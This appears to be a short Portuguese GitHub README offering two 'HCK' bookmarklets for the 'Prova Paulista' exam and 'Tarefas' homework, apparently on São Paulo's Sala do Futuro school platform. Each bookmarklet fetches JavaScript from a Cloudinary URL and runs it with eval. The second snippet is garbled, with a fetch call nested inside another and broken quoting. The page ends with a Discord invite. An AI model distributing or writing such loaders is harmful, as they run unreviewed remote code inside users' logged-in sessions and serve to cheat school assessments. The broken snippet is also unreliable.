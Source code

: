 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
```js
javascript:fetch("javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);").then(t=>t.text()).then(eval);
```

### [Discord: Hackermoon](https://discord.gg/k5BFyvbj)
